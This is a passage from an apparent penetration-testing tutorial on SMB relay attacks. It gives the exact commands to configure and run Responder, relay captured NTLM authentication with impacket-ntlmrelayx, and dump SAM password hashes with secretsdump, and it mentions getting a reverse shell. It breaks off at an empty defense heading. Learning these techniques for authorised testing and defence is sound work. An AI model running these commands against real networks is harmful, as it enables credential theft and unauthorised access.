     ```Shell
    nano /etc/responder/Responder.conf
    ```
    
    - Set the following options:
        
        ```Plain
        SMB = Off
        HTTP = Off
        ```
        
    - This ensures Responder only captures hashes without responding to SMB/HTTP requests.

### Step 2: Start **Responder**

- Launch Responder to start listening for authentication attempts:
    
    ```Shell
    sudo responder -I eth0
    ```
    

### Step 3: Set Up **ntlmrelayx**

- Use **[ntlmrelayx.py](http://ntlmrelayx.py/)** from the Impacket suite to relay captured hashes:
    
    ```Shell
    sudo impacket-ntlmrelayx -tf targets.txt --smb2support
    ```
    
    - `tf targets.txt`: A file containing the IP addresses of target machines.
    - `-smb2support`: Enables support for SMBv2.

### 5. **Attack Execution**

1. **Wait for a victim** to attempt SMB authentication on the network.
2. **Responder captures the hash** but does not respond.
3. **ntlmrelayx relays** the captured credentials to a specified target.
4. If **SMB signing is disabled** on the target and the user has admin rights, the attack is successful.
5. **Access Gained**:
    - Dump **SAM hashes**:
        
        ```Shell
        secretsdump.py target_ip -hashes lmhash:nthash
        ```
        
    - Or gain a **reverse shell** for further exploitation.

### 6. **What Can Be Extracted?**

- **SAM (Security Account Manager) Hashes**:
    - Equivalent to Linux **shadow files**, these contain local usernames and password hashes.
    - Can be used to crack passwords offline or pass-the-hash to other machines.

### 7. **Defense Against SMB Relay Attacks**

